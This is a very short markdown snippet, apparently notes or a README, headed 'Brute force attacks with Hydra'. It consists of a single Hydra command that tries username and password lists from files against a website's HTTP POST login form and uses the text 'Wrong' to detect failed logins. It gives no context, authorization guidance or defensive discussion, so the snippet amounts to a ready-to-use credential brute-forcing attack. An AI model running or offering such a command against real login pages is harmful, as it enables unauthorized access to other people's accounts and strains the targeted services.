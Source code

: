 # Brute force attacks with Hydra

```
hydra website.com http-post-form "/:login=^USER^&password=^PASS^:F=Wrong" -L logins.txt -P dict.txt
```
